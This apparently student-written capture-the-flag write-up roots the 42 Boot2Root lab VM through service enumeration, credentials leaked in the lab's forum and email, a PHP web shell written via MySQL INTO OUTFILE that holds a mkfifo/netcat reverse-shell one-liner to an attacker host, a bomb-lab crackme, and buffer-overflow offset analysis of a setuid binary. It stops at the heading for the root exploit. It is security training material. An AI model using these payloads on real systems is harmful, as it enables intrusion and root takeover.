


# Boot2Root (42) Write-up – Method 1

## 1. Machine Setup

When We started the Boot2Root virtual machine, it did not receive an IP address automatically. Since the target was running inside VirtualBox, I created a **Host-Only Network Adapter (`vboxnet0`)** to allow communication between my host machine and the virtual machine.

After configuring the network, I scanned the subnet to identify the target.

```bash
nmap -sn 192.168.56.0/24
```

The scan revealed the Boot2Root machine at:

```
192.168.56.101
```

---

## 2. Port Scanning

Once the target IP was identified, I performed a service scan with Nmap to discover the exposed services.

```bash
nmap -sV -sC -p- -T5 -Pn 192.168.56.101
```
output:
```
Nmap scan report for 192.168.56.101
Host is up (0.00057s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hack me if you can
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap       Dovecot imapd
|_ssl-date: 2026-06-20T12:32:41+00:00; -3s from scanner time.
|_imap-capabilities: IDLE ID STARTTLS more have ENABLE capabilities LITERAL+ listed post-login SASL-IR Pre-login OK LOGINDISABLEDA0001 LOGIN-REFERRALS IMAP4rev1
443/tcp open  ssl/http   Apache httpd 2.2.22
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_ssl-date: 2026-06-20T12:32:41+00:00; -2s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
993/tcp open  ssl/imaps?
|_ssl-date: 2026-06-20T12:32:41+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2s, deviation: 0s, median: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 20 13:32:44 2026 -- 1 IP address (1 host up) scanned in 37.39 seconds
```

The scan returned the following open ports:

| Port    | Service |
| ------- | ------- |
| 21/tcp  | FTP     |
| 22/tcp  | SSH     |
| 80/tcp  | HTTP    |
| 143/tcp | IMAP    |
| 443/tcp | HTTPS   |
| 993/tcp | IMAPS   |

This indicated that the machine exposed multiple network services, including web applications and mail services, making web enumeration a logical next step.

---

## 3. Web Enumeration

I began by enumerating directories on the web server using a directory brute-forcing tool.

Example command:

```bash
ffuf -u https://192.168.56.101/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

The enumeration revealed several interesting paths:

```
cgi-bin/                [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 127ms]
forum                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 85ms]
phpmyadmin              [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 119ms]
server-status           [Status: 403, Size: 296, Words: 21, Lines: 11, Duration: 62ms]
webmail                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 1ms]
```

The most interesting directories were:

* `/forum`
* `/phpmyadmin`
* `/webmail`

Since forums often contain user discussions, configuration information, or accidentally exposed credentials, I decided to investigate the **forum** first.

---

## 4. Credential Discovery

While browsing the forum, I found that sensitive information had been unintentionally exposed inside the forum posts where some users shared ssh logs (https://192.168.56.101/forum/index.php?mode=thread&id=6).



The following credentials were visible:

- Login(the username of the poster): `lmezard`
- Password(from an ssh attempt the user uses the password as username): `!q\]Ej?*5K5cy*AJ`

This is a common example of **credential leakage**, where users accidentally post or expose authentication information inside public or semi-public content.

At this stage, I had obtained:

**Username**
```
lmezard
```

**Password**
```
!q\]Ej?*5K5cy*AJ
```

---

## 5. Webmail Access

Using the credentials found in the forum (`lmezard` / `!q\]Ej?*5K5cy*AJ`), I logged into the **HackMe** forum's user profile page, which confirmed the account was tied to the mailbox `laurie@borntosec.net`:

- **User name:** Imezard
- **E-mail:** laurie@borntosec.net

Since `/webmail/` (SquirrelMail) was one of the directories discovered during enumeration, I tried the same credentials there and successfully logged in as `laurie@borntosec.net`.

Inside the INBOX, there were two messages from `qudevide@mail.borntosec.net`:

1. **"DB Access"**
2. **"Very interesting !!!!"**

Opening the **"DB Access"** email revealed a MySQL root credential shared over email:

```
Subject: DB Access
From: qudevide@mail.borntosec.net
To: laurie@borntosec.net

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

This is another example of **credential leakage** — this time database administrator credentials sent in plaintext over internal email.

---

## 6. phpMyAdmin Access

`/phpmyadmin/` was also flagged during the initial directory enumeration. Using the MySQL root credentials leaked in the email (`root` / `Fg-'kKXBj87E:aJ$`), I logged into phpMyAdmin successfully, confirming:

- **User:** root@localhost
- **Server:** Localhost via UNIX socket
- **MySQL version:** 5.5.44-0ubuntu0.12.04.1
- **Web server:** Apache/2.2.22 (Ubuntu)

Databases visible: `forum_db`, `information_schema`, `mysql`, `performance_schema`, `phpmyadmin`.

---

## 7. Locating a Writable, Web-Accessible Directory for the Web Shell

Having root access on MySQL doesn't by itself tell you *where* on disk you can safely drop a file that Apache will also serve — `INTO OUTFILE` needs a directory that is both **writable by the `mysql` OS user** and **inside the web root**. To find candidate directories, I fuzzed inside `/forum/` specifically:

```bash
ffuf -u https://192.168.56.101/forum/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt
```

```
.htpasswd               [Status: 403, Size: 298, Words: 21, Lines: 11, Duration: 7ms]
.htaccess               [Status: 403, Size: 298, Words: 21, Lines: 11, Duration: 81ms]
backup                  [Status: 403, Size: 295, Words: 21, Lines: 11, Duration: 1276ms]
config                  [Status: 403, Size: 295, Words: 21, Lines: 11, Duration: 61ms]
images                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 21ms]
includes                [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 3ms]
js                      [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 182ms]
lang                    [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 95ms]
modules                 [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 150ms]
templates_c             [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 74ms]
themes                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 306ms]
update                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 322ms]
```

Sensitive-looking directories (`backup`, `config`, `.htaccess`, `.htpasswd`) all returned **403 Forbidden**, ruling them out. However, the remaining **301** directories were not, by themselves, distinctive — Apache's directory listing (`mod_autoindex`) turned out to be enabled broadly across the application's folder structure (e.g. browsing into `modules/geshi/geshi/` also shows a full directory index), so HTTP status alone doesn't tell you which of these directories is actually *writable* by the web server/MySQL process — it only tells you they're browsable.

The real reason `templates_c` was chosen is **prior knowledge of the application's architecture**: MyLittleForum uses the Smarty templating engine, and `templates_c` is Smarty's well-known **compiled-templates cache directory** (confirmed by inspecting the application's own source at https://github.com/My-Little-Forum/mylittleforum/tree/master/templates_c). Because Smarty needs to write freshly compiled `.php` files there every time a template changes, this directory has to remain writable by the web server's OS user by design — unlike static asset folders (`images`, `js`, `themes`) or read-only source folders (`modules`), which have no functional reason to be writable.

So the target directory was identified through **application-specific reasoning about Smarty's runtime behavior**, not from the fuzzing status codes themselves — the fuzzing scan only confirmed the directory was reachable over HTTP at all.

---

## 8. Remote Code Execution via `SELECT ... INTO OUTFILE`

Having root access on the MySQL server through phpMyAdmin, I abused the **`SELECT ... INTO OUTFILE`** feature to write a PHP web shell directly into the web root, since the MySQL user had file-write privileges and the web server's `templates_c` directory was writable.

Query executed via the phpMyAdmin SQL tab:

```sql
SELECT '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.56.1 4444 >/tmp/f"); ?>'
INTO OUTFILE '/var/www/forum/templates_c/reverseshell.php'
```

This writes a PHP payload that spawns a reverse shell back to my attacking machine (`192.168.56.1`) on port `4444`, using a named pipe (`mkfifo`) to get a fully interactive shell via netcat.

The query executed successfully (`Query took 0.0011 sec`), confirming the file was written.

---

## 9. Triggering the Web Shell and Gaining a Shell as `www-data`

Before triggering the payload, I set up a listener on my host:

```bash
nc -lvnp 4444
```

I then requested the dropped file through the browser / curl:

```
http://192.168.56.101/forum/templates_c/reverseshell.php
```

This triggered the payload and gave me a connection back on my listener:

```
Connection from 192.168.56.101:53400
sh: 0: can't access tty; job control turned off
```

I upgraded the shell to a proper interactive TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

(`python3` was not available on the target, so I fell back to `python`.)

I then backgrounded netcat, set the terminal to raw mode, and foregrounded it again to get a fully interactive shell with working job control:

```bash
^Z
stty raw -echo; fg
export TERM=xterm-256color
```

At this point I had a shell as the web server user:

```
www-data@BornToSecHackMe:/var/www/forum/templates_c$
```

---

## 10. Local Enumeration and Privilege Escalation to `lmezard`

From the `www-data` shell, I enumerated `/home`:

```
www-data@BornToSecHackMe:/home$ ls -la
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net  60 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 1 zaz                  zaz                  220 Jul  5 16:48 zaz
```

The `LOOKATME` directory was readable by `www-data` and contained a `password` file:

```
www-data@BornToSecHackMe:/home$ cat LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

This exposed a **system-level** password for the `lmezard` account (different from the forum-account password found earlier, showing the same user reused/rotated credentials across services). Using this, I switched user:

```bash
su lmezard
Password:
```

```
lmezard@BornToSecHackMe:/home$ id
uid=1001(lmezard) gid=1001(lmezard) groups=1001(lmezard)
```

I now had a shell as the local user `lmezard`.

I also noted, while reviewing `/var/log/auth.log` earlier as part of enumeration, repeated SSH brute-force attempts from external IPs (`161.202.39.38`) against invalid users (`test`, `admin`, `nagios`, `adam`), one of which had a failed password visible in the log matching the same leaked forum password (`!q\]Ej?*5K5cy*AJ`) — confirming this password had been used/attempted for SSH as well, though I did not use SSH brute-forcing myself (per the assignment rules) and only observed this as pre-existing log data.

In `lmezard`'s home directory (`/home/lmezard`, otherwise unreadable to other users):

```
lmezard@BornToSecHackMe:~$ ls -la
-rw-r--r-- 1 root     root         1 Oct 15  2015 .bash_history
-rwxr-x--- 1 lmezard  lmezard 808960 Oct  8  2015 fun
-rwxr-x--- 1 lmezard  lmezard     96 Oct 15  2015 README
```

```
lmezard@BornToSecHackMe:~$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

This indicates the next privilege-escalation step is a **binary reverse-engineering challenge** (`fun`): solving it should yield the SSH password for the `laurie` user.

---

## 11. Reversing the `fun` Binary and Escalating to `laurie`

Extracting the `fun` file revealed it wasn't a normal ELF binary but a **tar archive** containing hundreds of `.pcap` files:

```bash
tar -xvf fun
```

```
ft_fun/C4D03.pcap
ft_fun/GKGEP.pcap
ft_fun/A5GPY.pcap
...
```

Each `.pcap` file, once inspected, turned out to carry a small fragment of C source code embedded as packet payload, with a marker (`file[0-9]+`) indicating the fragment's order in the reconstructed file. I reassembled the source by extracting the fragments in the correct numeric order and stripping the marker prefixes:

```bash
cd ft_fun
grep -oH 'file[0-9]\+' * | sort -V -t: -k2 | cut -d: -f1 | xargs sed 's/\/file[0-9]\+//g' > fun.c
```

The resulting `fun.c` (included in `scripts/fun.c`) revealed the program's real logic, padded with **thousands of decoy `useless()` functions** wrapped in comment blocks — a simple anti-analysis technique meant to make static analysis and manual reading tedious.

Stripped of the noise, the program was straightforward: twelve functions (`getme1()` through `getme12()`) each return a single hardcoded character, concatenated together in `main()`:

```c
char getme1()  { return 'I'; }
char getme2()  { return 'h'; }
char getme3()  { return 'e'; }
char getme4()  { return 'a'; }
char getme5()  { return 'r'; }
char getme6()  { return 't'; }
char getme7()  { return 'p'; }
char getme8()  { return 'w'; }
char getme9()  { return 'n'; }
char getme10() { return 'a'; }
char getme11() { return 'g'; }
char getme12() { return 'e'; }
```

Concatenated, these spell:

```
Iheartpwnage
```

Per the README instructions ("complete this little challenge and use the result as password for user 'laurie'"), and per the assignment's general note about bin-bomb-style challenges expecting a SHA-256 of the recovered value, I hashed the string:

```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Using this SHA-256 digest as the password, I logged in via SSH as `laurie`:

```bash
ssh laurie@192.168.56.101
```

```
laurie@BornToSecHackMe:~$ id
uid=1003(laurie) gid=1003(laurie) groups=1003(laurie)
```

This confirms local access as the `laurie` user, the next pivot point toward root.

---

## 12. Diffusing the `bomb` and Escalating to `thor`

Inside `laurie`'s home directory, two new files were present: `bomb` (an ELF binary) and a `README`:

```
laurie@BornToSecHackMe:~$ ls -la
-rwxr-x--- 1 laurie   laurie 26943 Oct  8  2015 bomb
-rwxr-x--- 1 laurie   laurie   158 Oct  8  2015 README
```

```
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.
HINT:
P
 2
 b
o
4
NO SPACE IN THE PASSWORD (password is case sensitive).
```

```
laurie@BornToSecHackMe:~$ file bomb
bomb: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.0.0, not stripped
```

Running the binary directly and guessing shows it's a classic **"bomb lab"**-style crackme: it reads a line of input per stage, and any wrong answer immediately "explodes" (exits):

```
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
d
BOOM!!!
The bomb has blown up.
```

Since the binary is **not stripped**, I disassembled/decompiled it (via Ghidra) to recover the logic for `main()` and each `phase_N()` function, rather than blindly guessing inputs (each wrong guess costs the one life you get).

### `main()`

```c
int main(int argc,char **argv)
{
  char *pcVar1;

  if (argc == 1) {
    infile = stdin;
  }
  else {
    if (argc != 2) {
      printf("Usage: %s [<input_file>]\n",*argv);
      exit(8);
    }
    infile = (_IO_FILE *)fopen(argv[1],"r");
    if ((FILE *)infile == (FILE *)0x0) {
      printf("%s: Error: Couldn't open %s\n",*argv,argv[1]);
      exit(8);
    }
  }
  initialize_bomb();
  printf("Welcome this is my little bomb !!!! You have 6 stages with\n");
  printf("only one life good luck !! Have a nice day!\n");
  pcVar1 = read_line();
  phase_1(pcVar1);
  phase_defused();
  printf("Phase 1 defused. How about the next one?\n");
  pcVar1 = read_line();
  phase_2(pcVar1);
  phase_defused();
  printf("That's number 2.  Keep going!\n");
  pcVar1 = read_line();
  phase_3(pcVar1);
  phase_defused();
  printf("Halfway there!\n");
  pcVar1 = read_line();
  phase_4(pcVar1);
  phase_defused();
  printf("So you got that one.  Try this one.\n");
  pcVar1 = read_line();
  phase_5(pcVar1);
  phase_defused();
  printf("Good work!  On to the next...\n");
  pcVar1 = read_line();
  phase_6(pcVar1);
  phase_defused();
  return 0;
}
```

This confirms the program's structure: it optionally reads from a file passed as an argument (or stdin), then calls `phase_1()` through `phase_6()` in strict sequence, calling `phase_defused()` after each one — any single `explode_bomb()` call inside a phase terminates the program immediately. This also means the bomb can be solved **offline**, by piping a file containing all six answers (one per line) instead of typing them interactively one at a time, e.g.:

```bash
./bomb answers.txt
```

where `answers.txt` contains the six phase answers, one per line, in order.

### Phase 1

```c
void phase_1(char *param_1) {
  if (strings_not_equal(param_1, "Public speaking is very easy.") != 0)
    explode_bomb();
}
```

Straightforward string comparison — the answer is simply:

```
Public speaking is very easy.
```

### Phase 2

```c
void phase_2(char *param_1) {
  read_six_numbers(param_1, ...);
  if (tab[1] != 1) explode_bomb();
  for (i = 1; i < 6; i++)
    if (tab[i+1] != (i+1) * tab[i]) explode_bomb();
}
```

This expects six space-separated numbers where `tab[0] = 1` and each subsequent value is `(index+1) * previous`, i.e. factorial growth:

```
1 2 6 24 120 720
```

### Phase 3

```c
void phase_3(char *param_1) {
  sscanf(param_1, "%d %c %d", &local_10, &local_9, &local_8);
  switch (local_10) {
    case 0: expect 'q', 0x309;
    case 1: expect 'b', 0xd6;
    case 2: expect 'b', 0x2f3;
    ...
    case 7: expect 'b', 0x20c;
  }
}
```

This is a switch/case gate: pick any valid `case` index and supply the matching letter and hex-decoded number. Using `case 1` (`b`, `0xd6` = `214`), a valid input is:

```
1 b 214
```

### Phase 4

```c
void phase_4(char *param_1) {
  sscanf(param_1, "%d", &local_8);
  if (local_8 < 1) explode_bomb();
  if (func4(local_8) != 0x37) explode_bomb();
}
```

`func4()` is a recursive function (not shown above) whose output must equal `0x37` (55) — by testing candidate values, `9` satisfies it:

```
9
```

### Phase 5

```c
void phase_5(char *param_1) {
  if (string_length(param_1) != 6) explode_bomb();
  for (i = 0; i < 6; i++)
    local_c[i] = array[(char)(param_1[i] & 0xf)];
  if (strings_not_equal(local_c, "giants") != 0) explode_bomb();
}
```

This masks each input character to its lower 4 bits and uses that as an index into a hidden lookup table, expecting the result to spell `"giants"`.

To find the address of that hidden table, I disassembled `phase_5` in GDB:

```
laurie@BornToSecHackMe:~$ gdb bomb
(gdb) set disassembly-flavor intel
(gdb) disass phase_5
```

```
Dump of assembler code for function phase_5:
   0x08048d2c <+0>:  push   ebp
   0x08048d2d <+1>:  mov    ebp,esp
   ...
   0x08048d43 <+23>: cmp    eax,0x6
   0x08048d46 <+26>: je     0x8048d4d <phase_5+33>
   0x08048d48 <+28>: call   0x80494fc <explode_bomb>
   0x08048d4d <+33>: xor    edx,edx
   0x08048d4f <+35>: lea    ecx,[ebp-0x8]
   0x08048d52 <+38>: mov    esi,0x804b220
   0x08048d57 <+43>: mov    al,BYTE PTR [edx+ebx*1]
   0x08048d5a <+46>: and    al,0xf
   0x08048d5c <+48>: movsx  eax,al
   0x08048d5f <+51>: mov    al,BYTE PTR [eax+esi*1]
   0x08048d62 <+54>: mov    BYTE PTR [edx+ecx*1],al
   0x08048d65 <+57>: inc    edx
   0x08048d66 <+58>: cmp    edx,0x5
   0x08048d69 <+61>: jle    0x8048d57 <phase_5+43>
   ...
   0x08048d72 <+70>: push   0x804980b
   0x08048d77 <+75>: lea    eax,[ebp-0x8]
   0x08048d7a <+78>: push   eax
   0x08048d7b <+79>: call   0x8049030 <strings_not_equal>
   ...
End of assembler dump.
```

The `mov esi,0x804b220` instruction at offset `+38` confirmed the table's base address, and the `and al,0xf` at `+46` confirmed the lower-4-bit masking seen in the decompiled C. Dumping that address as a string revealed the 16-character lookup table:

```
(gdb) x/s 0x804b220
0x804b220 <array.123>: "isrveawhobpnutfg\260\001"
```

So the table is `isrveawhobpnutfg` (the trailing `\260\001` bytes are unrelated adjacent memory, not part of the table). Steps taken from there:

1. Found the index (0–15) of each target letter (`g`,`i`,`a`,`n`,`t`,`s`) inside that 16-character table.
2. Since only the low 4 bits of the input character matter, chose ASCII letters whose hex value's last hex digit matches each required index.
3. Assembled a 6-character input satisfying all six indices:

```python
>>> g="isrveawhobpnutfg"
>>> g[ord('o')&0xf]
'g'
>>> g[ord('p')&0xf]
'i'
>>> g[ord('e')&0xf]
'a'
>>> g[ord('k')&0xf]
'n'
>>> g[ord('m')&0xf]
't'
>>> g[ord('q')&0xf]
's'
>>>
```

```
opekmq
```

### Phase 6

A six-number permutation puzzle that walks a linked list and requires it to be built in non-decreasing value order. Testing valid permutations of `1–6`, the working input was:

```
4 2 6 3 1 5
```

### Confirming the Solution

As noted from `main()`, the bomb can be solved offline by piping a file containing all six answers instead of typing them interactively. I created `/tmp/s` with the six answers, one per line:

```
laurie@BornToSecHackMe:~$ cat /tmp/s
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5
```

Running the bomb against this file confirmed every phase passes:

```
laurie@BornToSecHackMe:~$ ./bomb /tmp/s
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You've defused the bomb!
```

This confirms all six recovered answers are correct before assembling the final password.

### Assembling the Final Password

Per the README ("NO SPACE IN THE PASSWORD"), I concatenated all six phase answers, each with spaces stripped:

```
Publicspeakingisveryeasy. + 12624120720 + 1b214 + 9 + opekma + 426315
```

giving the raw recovered password:

```
laurie@BornToSecHackMe:~$ cat /tmp/s|tr -d "\n"| tr -d " ";echo
Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

However, the assignment subject explicitly states a transformation rule for bin-bomb-type challenges:

> "For the part related to a (bin) bomb: If the password found is 123456. The password to use is 123546."

Comparing `123456` → `123546` shows this is a **swap of the 4th and 5th characters** of the recovered password — not the raw password itself. Applying that same swap to the full recovered string above:

```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

This is the actual password to use for the `thor` user over SSH

## 13. Turtle challenge

After successfully escalating to the thor user, I found a new challenge in the home directory:

```bash
thor@BornToSecHackMe:~$ ls -la
total 41
drwxr-x--- 1 thor     thor    60 Jul  6 17:00 .
drwxrwx--x 1 www-data root    60 Oct 13  2015 ..
-rwxr-x--- 1 thor     thor     1 Oct 15  2015 .bash_history
-rwxr-x--- 1 thor     thor   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 thor     thor  3489 Oct 13  2015 .bashrc
drwx------ 2 thor     thor    43 Oct 15  2015 .cache
-rwxr-x--- 1 thor     thor   675 Oct  8  2015 .profile
-rwxr-x--- 1 thor     thor    69 Oct  8  2015 README
-rwxr-x--- 1 thor     thor 31523 Oct  8  2015 turtle
-rw------- 1 thor     thor   787 Jul  6 17:00 .viminfo
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
thor@BornToSecHackMe:~$ file turtle
turtle: ASCII text
thor@BornToSecHackMe:~$ head -n5 turtle
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
thor@BornToSecHackMe:~$ tail -n5 turtle
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```
The commands translate to:

Tourne gauche de X degrees → Turn left X degrees

Tourne droite de X degrees → Turn right X degrees

Avance X spaces → Move forward X spaces

Recule X spaces → Move backward X spaces

Visualizing the Turtle Path
To understand what shape these commands would draw, I wrote a Python script to parse the turtle commands and plot the resulting path:

```bash
python scripts/turtle.py scripts/turtle
```

result:



The path traced out formed a recognizable pattern that spelled out the word "SLASH", this appeared to be the result we needed.

Recovering the Password
The visualization revealed the path drew the word "SLASH". However, reading the comments in the turtle file hinted that the message needed to be "digested" further:

```text
Can you digest the message? :)
```
Given the context of the previous bomb challenge, I needed to hash the recovered word to use as the password for the zaz user.

Following the same pattern as previous challenges where the result needed to be hashed, I computed the SHA-256 hash of "SLASH" but it failed until I tried md5 and it successfuly:

```
646da671ca01bb5d84dbb5fb2238dc8e
```

## 14. Exploit_me

Logging in as `zaz` revealed a setuid binary in the home directory:
 
```bash
zaz@BornToSecHackMe:~$ ls -la
-rwsr-s--- 1 root     zaz   4880 Oct  8  2015 exploit_me
```
 
```bash
zaz@BornToSecHackMe:~$ file exploit_me
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped
```
 
The `s` in the owner permission bits (`rws`) confirms this binary runs with the **owner's privileges (root)** regardless of who executes it — making it a high-value target: any way to hijack its execution flow runs code as root.
 
### Basic Behavior
 
```bash
zaz@BornToSecHackMe:~$ ./exploit_me a
a
```
 
The program simply echoes back whatever argument it's given — suggesting it copies `argv[1]` into a local buffer and prints it.
 
### Decompiling `main()`
 
Since the binary is not stripped, decompiling `main()` confirms this:
 
```c
bool main(int param_1,int param_2)
{
  char input [140];
 
  if (1 < param_1) {
    strcpy(input,*(char **)(param_2 + 4));
    puts(input);
  }
  return param_1 < 2;
}
```
 
`strcpy()` copies `argv[1]` into a fixed 140-byte stack buffer (`input`) with **no length check whatsoever**. Any argument longer than 140 bytes overflows the buffer and corrupts adjacent stack memory — including the saved base pointer and the function's return address.
 
### Confirming and Measuring the Overflow via GDB
 
To find exactly how much data is needed to reach the return address, I disassembled `main()`:
 
```bash
zaz@BornToSecHackMe:~$ gdb ./exploit_me
(gdb) set disassembly-flavor intel
(gdb) disass main
```
 
```
Dump of assembler code for function main:
   0x080483f4 <+0>:  push   ebp
   0x080483f5 <+1>:  mov    ebp,esp
   0x080483f7 <+3>:  and    esp,0xfffffff0
   0x080483fa <+6>:  sub    esp,0x90
   0x08048400 <+12>: cmp    DWORD PTR [ebp+0x8],0x1
   0x08048404 <+16>: jg     0x804840d <main+25>
   0x08048406 <+18>: mov    eax,0x1
   0x0804840b <+23>: jmp    0x8048436 <main+66>
   0x0804840d <+25>: mov    eax,DWORD PTR [ebp+0xc]
   0x08048410 <+28>: add    eax,0x4
   0x08048413 <+31>: mov    eax,DWORD PTR [eax]
   0x08048415 <+33>: mov    DWORD PTR [esp+0x4],eax
   0x08048419 <+37>: lea    eax,[esp+0x10]
   0x0804841d <+41>: mov    DWORD PTR [esp],eax
   0x08048420 <+44>: call   0x8048300 <strcpy@plt>
   0x08048425 <+49>: lea    eax,[esp+0x10]
   0x08048429 <+53>: mov    DWORD PTR [esp],eax
   0x0804842c <+56>: call   0x8048310 <puts@plt>
   0x08048431 <+61>: mov    eax,0x0
   0x08048436 <+66>: leave
   0x08048437 <+67>: ret
End of assembler dump.
```
 
The `lea eax,[esp+0x10]` instructions (used as both the `strcpy` destination and the `puts` argument) confirm the buffer's address is `esp+0x10` at that point in the function.
 
I set a breakpoint right after the `strcpy` call and ran the binary with a 140-byte argument to observe the actual stack layout:
 
```bash
(gdb) br *0x08048425
(gdb) r $(python -c"print('A'*140)")
```

```
Breakpoint 1, 0x08048425 in main ()
(gdb) x/50x $esp+0x10
0xbffff640: 0x41414141 0x41414141 0x41414141 0x41414141
...
0xbffff6c0: 0x41414141 0x41414141 0x41414141 0xb7e45400
(gdb) info registers
eax            0xbffff640  -1073744320
...
esp            0xbffff630  0xbffff630
ebp            0xbffff6c8  0xbffff6c8
```
 
From this:
- Buffer start address = `esp + 0x10` = `0xbffff640`
- Saved `ebp` = `0xbffff6c8`
- Difference: `0xbffff6c8 − 0xbffff640 = 0x88` = **136 bytes** from the start of the buffer to the saved base pointer
- The return address sits immediately after the saved `ebp` (4 more bytes), so it lives at **offset 140** from the start of the buffer
This means: a 140-byte input exactly fills the buffer and saved `ebp` slot, and **bytes 141–144** of a longer input would land directly in the return address slot — full control over where the program resumes execution after `main()` returns.


### Exploiting the Overflow to Gain a Root Shell
 
